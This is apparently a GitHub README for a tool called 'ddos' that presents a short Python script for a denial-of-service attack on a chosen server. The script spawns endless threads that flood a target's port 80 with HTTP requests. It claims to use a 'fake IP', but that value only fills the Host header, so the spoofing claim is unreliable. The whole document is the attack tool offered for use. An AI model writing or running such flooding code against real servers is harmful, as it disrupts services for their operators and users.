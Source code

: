 # ddos
### A method for dos attack on the desired server

```

import socket # for connection

import threading # for Multitasking at the same time

```
### We start writing the rest of the tool code

# Setting up a fake IP and attacking the target host
‍‍‍‍`
‍‍‍‍import socket
import threading

target = '127.0.0.1' # target ip
fake_ip = '108.61.128.158'
port = 80

an = 0
def attack():
    while True:
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect((target, port))
        client.sendto(("GET /" + target + " HTTP/2\r\n").encode('ascii'), (target, port))
        client.sendto(("Host: " + fake_ip + "\r\n\r\n").encode('ascii'), (target, port))
        
        global an
        an += 1
        print(an)
        
        client.close()

while True:
    thread = threading.Thread(target=attack)
    thread.start()`
    
# Don't be disappointed

